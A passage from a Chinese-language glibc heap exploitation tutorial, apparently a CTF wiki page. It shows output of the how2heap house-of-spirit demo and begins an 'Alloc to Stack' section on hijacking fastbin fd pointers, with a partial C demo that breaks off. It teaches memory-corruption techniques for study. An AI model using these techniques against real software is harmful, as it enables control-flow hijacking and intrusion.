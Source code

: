 运行后的效果如下

```shell
➜  how2heap git:(master) ./house_of_spirit
This file demonstrates the house of spirit attack.
Calling malloc() once so that it sets up its memory.
We will now overwrite a pointer to point to a fake 'fastbin' region.
This region (memory of length: 80) contains two chunks. The first starts at 0x7ffd9bceaa58 and the second at 0x7ffd9bceaa88.
This chunk.size of this region has to be 16 more than the region (to accomodate the chunk data) while still falling into the fastbin category (<= 128 on x64). The PREV_INUSE (lsb) bit is ignored by free for fastbin-sized chunks, however the IS_MMAPPED (second lsb) and NON_MAIN_ARENA (third lsb) bits cause problems.
... note that this has to be the size of the next malloc request rounded to the internal size used by the malloc implementation. E.g. on x64, 0x30-0x38 will all be rounded to 0x40, so they would work for the malloc parameter at the end.
The chunk.size of the *next* fake region has to be sane. That is > 2*SIZE_SZ (> 16 on x64) && < av->system_mem (< 128kb by default for the main arena) to pass the nextsize integrity checks. No need for fastbin size.
Now we will overwrite our pointer with the address of the fake region inside the fake first chunk, 0x7ffd9bceaa58.
... note that the memory address of the *region* associated with this chunk must be 16-byte aligned.
Freeing the overwritten pointer.
Now the next malloc will return the region of our fake chunk at 0x7ffd9bceaa58, which will be 0x7ffd9bceaa60!
malloc(0x30): 0x7ffd9bceaa60
```

### 小总结 

可以看出，想要使用该技术分配 chunk 到指定地址，其实并不需要修改指定地址的任何内容，**关键是要能够修改指定地址的前后的内容使其可以绕过对应的检测**。

## Alloc to Stack

### 介绍 

如果你已经理解了前文所讲的 Fastbin Double Free 与 house of spirit 技术，那么理解该技术就已经不成问题了，它们的本质都在于 fastbin 链表的特性：当前 chunk 的 fd 指针指向下一个 chunk。

该技术的核心点在于劫持 fastbin 链表中 chunk 的 fd 指针，把 fd 指针指向我们想要分配的栈上，从而实现控制栈中的一些关键数据，比如返回地址等。

### 演示 

这次我们把 fake_chunk 置于栈中称为 stack_chunk，同时劫持了 fastbin 链表中 chunk 的 fd 值，通过把这个 fd 值指向 stack_chunk 就可以实现在栈中分配 fastbin chunk。

```
typedef struct _chunk
{
    long long pre_size;
    long long size;
    long long fd;
    long long bk;
} CHUNK,*PCHUNK;

int main(void)
{
    CHUNK stack_chunk;

    void *chunk1;
    void *chunk_a;

    stack_chunk.size=0x21;
    chunk1=malloc(0x10);
```
